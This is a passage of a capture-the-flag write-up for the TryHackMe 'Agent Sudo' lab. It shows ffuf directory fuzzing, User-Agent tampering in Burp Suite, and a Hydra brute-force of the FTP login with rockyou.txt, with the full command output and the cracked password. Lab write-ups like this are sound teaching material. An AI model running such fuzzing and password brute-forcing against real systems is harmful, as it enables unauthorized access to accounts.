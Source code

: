 FTP, SSH and HTTP ports are open. The FTP port doesn't allow anonymous login, and fuzzing the website, doesn't give anything.

```
┌──(kali㉿kali)-[~/Desktop/THM/Agent Sudo]
└─$ ffuf -u http://10.10.122.143/FUZZ -w /usr/share/seclists/Discovery/Web-Content/big.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.122.143/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 482ms]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 3837ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 480ms]
:: Progress: [20476/20476] :: Job [1/1] :: 73 req/sec :: Duration: [0:04:33] :: Errors: 0 ::x
```

The website gives the hint to play with the User-Agent.
<img src=https://github.com/user-attachments/assets/0fcf660d-bfac-4b3e-8cc3-427526f1e07d>

Intercepting it with Burp Suite, I manually tried with `A, B, C, etc`. This can also be automated with Burp's Intruder feature.

This is with User-Agent as C:
<img src=https://github.com/user-attachments/assets/3b490f2d-dd18-41f8-ab54-da718ab7f0ba>

Now I know the username for the FTP server. The password is weak so I used Hydra to find the password using rockyou.txt file.

```
┌──(kali㉿kali)-[~/Desktop/THM/Agent Sudo]
└─$ hydra ftp://10.10.122.143 -l chris -P /usr/share/wordlists/rockyou.txt                            
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-01 21:34:10
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.122.143:21/
[STATUS] 224.00 tries/min, 224 tries in 00:01h, 14344175 to do in 1067:17h, 16 active
[21][ftp] host: 10.10.122.143   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-01 21:35:25
```
